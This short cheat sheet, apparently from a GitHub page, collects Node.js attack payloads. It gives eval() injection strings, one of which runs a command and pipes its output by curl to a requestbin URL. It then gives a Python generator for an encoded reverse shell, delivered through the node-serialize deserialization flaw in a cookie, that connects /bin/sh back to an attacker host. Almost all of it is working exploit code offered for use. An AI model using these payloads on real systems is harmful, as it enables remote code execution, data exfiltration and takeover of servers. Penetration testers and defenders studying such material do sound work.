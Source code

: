 # Nodejs

## eval()

payloads:

```javascript
(()=>{throw `${JSON.stringify(fs.readdirSync("."))}`})()

require("child_process").exec("{cmd} | curl https://requestbin.net/xxxxxx -T -");
```

## serialize()

Imagine a cookie

    {'user':'test','pass':'lol'}

which is pass to the function deserialize() from node module 'node-serialize'
There is a vulnerability which let the attacker to execute code via this cookie
We can use this script to create a remote shell

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    var sh = spawn('/bin/sh',[]);
    client.connect(PORT, HOST, function() {
        client.write("Connected!\\n");
        client.pipe(sh.stdin);

        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "_$$ND_FUNC$$_function (){eval(String.fromCharCode(%s))}()" % (PAYLOAD)
```

We submit the cookie {'user':'payload';'pass':'lol'}
And pray for your shell
